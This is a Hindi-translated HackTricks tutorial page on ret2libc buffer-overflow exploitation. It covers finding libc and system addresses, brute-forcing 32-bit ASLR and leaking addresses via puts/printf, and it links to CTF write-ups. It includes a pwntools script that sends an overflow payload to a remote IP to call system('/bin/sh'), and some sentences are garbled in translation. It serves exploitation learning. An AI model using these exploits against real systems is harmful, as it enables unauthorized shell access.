 # Ret2lib

{% hint style="success" %}
एडब्ल्यूएस हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण एडब्ल्यूएस रेड टीम एक्सपर्ट (एआरटीई)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
जीसीपी हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण जीसीपी रेड टीम एक्सपर्ट (जीआरटीई)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में पीआर जमा करके।

</details>
{% endhint %}

## **मूल जानकारी**

**Ret2Libc** का सार है किसी भी वंलरबल प्रोग्राम के निष्पादन फ्लो को एक साझा लाइब्रेरी के फ़ंक्शन (जैसे **सिस्टम**, **एक्सीवी**, **स्ट्रकोपी**) में पुनर्निर्देशित करना बजाय अटैकर द्वारा प्रदत्त शैलकोड को स्टैक पर निष्पादित करने का है। अटैकर एक पेलोड बनाता है जो स्टैक पर वापसी पता संशोधित करता है ताकि इच्छित लाइब्रेरी फ़ंक्शन पर पहुंचे, साथ ही कॉलिंग कन्वेंशन के अनुसार आवश्यक तरीके से किसी भी आवश्यक तर्कों को सेट करने के लिए भी व्यवस्थित करता है।

### **उदाहरण कदम (सरलीकृत)**

* कॉल करने के लिए फ़ंक्शन (जैसे सिस्टम) और कॉल करने के लिए कमांड (जैसे /बिन/श) का पता प्राप्त करें
* पहले तर्क को पास करने के लिए आरओपी श्रृंखला उत्पन्न करें जो कमांड स्ट्रिंग पर पहला तर्क दिखाती है और फ़ंक्शन को निष्पादन करने के लिए निर्देशन धारा को सेट करती है

## पते खोजना

* मान लेने की `libc` जो वर्तमान मशीन में उपयोग की जाती है, उसे आप यहाँ देख सकते हैं कि यह मेमोरी में कहाँ लोड होगी:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप जांचना चाहते हैं कि ASLR libc के पते को बदल रहा है तो आप यह कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* जानते हुए कि कौन सी libc का उपयोग किया गया है, `system` फ़ंक्शन के लिए ऑफसेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* जानते हुए जिस libc का उपयोग किया गया है, उससे `/bin/sh` स्ट्रिंग फ़ंक्शन के ऑफसेट को भी खोजना संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### जीडीबी-पीडा / जीईएफ का उपयोग

लिबसी का पता लगाने के बाद, **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाने के लिए Peda या GEF का उपयोग भी संभव है:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं (नेटवर्क सर्वर) तो **बच्चे** बना रही है, तो उस फ़ाइल को **पढ़ने** का प्रयास करें (संभावित रूप से आपको रूट होने की आवश्यकता होगी)।

यहाँ आप **सटीक रूप से देख सकते हैं कि प्रक्रिया के अंदर libc कहाँ लोड हो रहा है** और **प्रत्येक प्रक्रिया के बच्चों के लिए कहाँ लोड होने जा रहा है**।

![](<../../../.gitbook/assets/image (853).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का बेस पता होगा)

## अज्ञात libc

संभावना है कि आपको पता नहीं हो कि **बाइनरी किस libc को लोड कर रहा है** (क्योंकि यह एक सर्वर में स्थित हो सकता है जिसमें आपका कोई पहुंच नहीं है)। उस मामले में आप विकल्प का दुरुपयोग कर सकते हैं **कुछ पते चुराने और पता लगाने के लिए कि कौन सा libc** पुस्तकालय उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2 ऑफसेट्स के साथ libc को जानें

पृष्ठ [https://libc.blukat.me/](https://libc.blukat.me/) की जाँच करें और libc के अंदर कुछ फ़ंक्शनों के **कुछ पतों** का उपयोग करके **उपयोग किया जाने वाला संस्करण** खोजें।

## 32 बिट में ASLR को उमकरना

ये ब्रूट-फोर्सिंग हमले **केवल 32 बिट सिस्टमों के लिए** उपयोगी हैं।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc के बेस पते को ब्रूट-फोर्स करने का प्रयास कर सकते हैं (32 बिट सिस्टमों के लिए उपयोगी है):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* अगर आप एक रिमोट सर्वर पर हमला कर रहे हैं, तो आप `libc` फ़ंक्शन `usleep` का पता लगाने के लिए **बर्ट-फोर्स कर सकते हैं**, 10 को एर्ग्यूमेंट के रूप में पास करते हुए। यदि किसी समय सर्वर **10 सेकंड अतिरिक्त समय लेता है** तो आपने इस फ़ंक्शन का पता लगा लिया है।

## वन गैजेट

`libc` में **एक** विशिष्ट **पते** पर जाकर शैली चलाएं:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR बर्ट-फोर्स कोड में एकीकृत किया गया है और वंलरेबल बाइनरी एक रिमोट सर्वर में स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

निम्नलिखित से उदाहरण देखें:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## ARM64 Ret2lib उदाहरण

ARM64 के मामले में, ret इंस्ट्रक्शन x30 रजिस्ट्री के पॉइंटिंग करने वाले स्थान पर जाता है और न कि स्टैक रजिस्ट्री के पॉइंटिंग करने वाले स्थान पर। इसलिए यह थोड़ा अधिक जटिल है।

इसके अलावा, ARM64 में एक इंस्ट्रक्शन वही करता है जो इंस्ट्रक्शन करता है (इंस्ट्रक्शन के बीच में जाने और उन्हें नए बनाने का संभावना नहीं है)।

उदाहरण देखें:

{% content-ref url="ret2lib-+-printf-leak-arm64.md" %}
[ret2lib-+-printf-leak-arm64.md](ret2lib-+-printf-leak-arm64.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

इसके द्वारा **प्रक्रिया से जानकारी लीक करने** की अनुमति देता है `printf`/`puts` को कुछ विशिष्ट डेटा के साथ एक तरह से कॉल करके। उदाहरण के लिए, `puts` के पते को GOT में डालकर `puts` के एक्यूशन में कॉल करने से मेमोरी में `puts` का पता **लीक हो जाएगा**।

## Ret2printf

यह मुख्य रूप से एक **Ret2lib को `printf` फॉर्मेट स्ट्रिंग वलनरेबिलिटी में बदलने** का अभयास करना है `ret2lib` का उपयोग करके इसे एक्सप्लॉइट करने के लिए `printf` को कॉल करने के लिए मानों के साथ। (यह बेकार लग सकता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, एक फ़ंक्शन के पते में लीक देने के साथ, एक गैजेट का उपयोग करके
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम है लेकिन PIE नहीं, पहला कदम है कैनारी के 0x00 बाइट तक ओवरफ्लो भरना और फिर पुट्स को कॉल करके इसे लीक करना। कैनारी के साथ एक ROP गैजेट बनाया जाता है जिससे पुट्स को कॉल करने के लिए GOT से पुट्स का पता लीक होता है और एक ROP गैजेट को कॉल करने के लिए `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम है, कैनारी नहीं, मुख्य स्टैक से चाइल्ड फ़ंक्शन में स्टैक ओवरफ्लो। पुट्स को कॉल करने के लिए ROP गैजेट को कॉल करने के लिए पुट्स के पते को GOT से लीक करने के लिए और फिर एक वन गैजेट को कॉल करने के लिए।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई पाई, कोई कैनारी, कोई रेलरो, एनएक्स। लीबीसी से लीक करने के लिए राइट फ़ंक्शन का उपयोग करता है (लिबीसी) और एक गैजेट को कॉल करता है।
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* स्टैक से कैनारी लीक करने के लिए एक फॉर्मेट स्ट्रिंग का उपयोग करता है और सिस्टम में कॉल करने के लिए बफर ओवरफ्लो करता है (यह GOT में है) के साथ `/bin/sh` के पते के साथ।
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 बिट, कोई रेलरो, कोई कैनारी, एनएक्स, पाई नहीं। स्टैक से लीबीसी और हीप के पतों को लीक करने के लिए एक बुरा इंडेक्सिंग का दुरुपयोग करता है। बफर ओवरफ्लो का दुरुपयोग करने के लिए रेट2लिब कॉल करने के लिए `system('/bin/sh')` (हीप पता एक जांच को उलटने के लिए आवश्यक है)।
